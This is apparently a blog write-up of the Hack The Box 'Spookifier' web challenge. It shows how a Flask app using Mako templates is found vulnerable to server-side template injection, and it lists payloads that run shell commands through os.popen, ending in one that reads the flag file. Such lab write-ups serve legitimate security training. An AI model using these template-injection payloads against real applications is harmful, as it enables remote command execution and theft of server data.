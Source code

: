 ```yaml
---
title: Spookifier HTB Challenge (English)
image: https://tse1.mm.bing.net/th?id=OIG1.iKzTRYDeUwZgb8AvNvbH&pid=ImgGn
description: Challenge Spookifier HTB [Difuculty very easy]
categories: [Challenge,HackTheBox]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: Spookifier
- Goal: Get the flag
- Difficulty: very easy
- Operating System: N/A
- link: [Spookifier](https://app.hackthebox.com/challenges/413)

  

### PDF Link


## Explotation

- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20Spookifier.pdf)


We have this input where whatever we introduce we get their differents font styles:

![](/assets/img/Anexos/Pasted%20image%2020250402090826.png)

![](/assets/img/Anexos/Pasted%20image%2020250402090845.png)

We can try a **XSS Injecton** 
![](/assets/img/Anexos/Pasted%20image%2020250402090924.png)

It's worked, but this is not for this way.

If we check the web files we can affirm it's using _MakoTemplates_

```shell
❯ ls -l
drwxrwxrwx root root 4.0 KB Tue Nov  1 10:20:58 2022  application
.rwxrwxrwx root root 101 B  Tue Nov  1 09:38:18 2022  run.py
❯ cat run.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: run.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from application.main import app
   2   │ 
   3   │ app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```

```shell
❯ cat main.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: main.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from flask import Flask, jsonify
   2   │ from application.blueprints.routes import web
   3   │ from flask_mako import MakoTemplates
   4   │ 
   5   │ app = Flask(__name__)
   6   │ MakoTemplates(app)
   7   │ 
   8   │ def response(message):
   9   │     return jsonify({'message': message})
  10   │ 
  11   │ app.register_blueprint(web, url_prefix='/')
  12   │ 
  13   │ @app.errorhandler(404)
  14   │ def not_found(error):
  15   │     return response('404 Not Found'), 404
  16   │ 
  17   │ @app.errorhandler(403)
  18   │ def forbidden(error):
  19   │     return response('403 Forbidden'), 403
  20   │ 
  21   │ @app.errorhandler(400)
  22   │ def bad_request(error):
  23   │     return response('400 Bad Request'), 400
```

So let's try **SSTI**

![](/assets/img/Anexos/Pasted%20image%2020250402091448.png)
it does not work with this payload, let's try with:

```shell
${7*7} 
```

![](/assets/img/Anexos/Pasted%20image%2020250402091506.png)

It worked. This is MakoTemplates so the next step is **command injection**:

```shell
${self.module.cache.util.os.system("id")}
```


![](/assets/img/Anexos/Pasted%20image%2020250402091908.png)

At firts I was not able to see the output, that's why we have to replace `os.system()` with `os.popen().read()`

```shell
${self.module.cache.util.os.popen('id').read()}
```
![](/assets/img/Anexos/Pasted%20image%2020250402092715.png)

Now we're able to see the output and we get the flag!

```shell
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](/assets/img/Anexos/Pasted%20image%2020250402092735.png)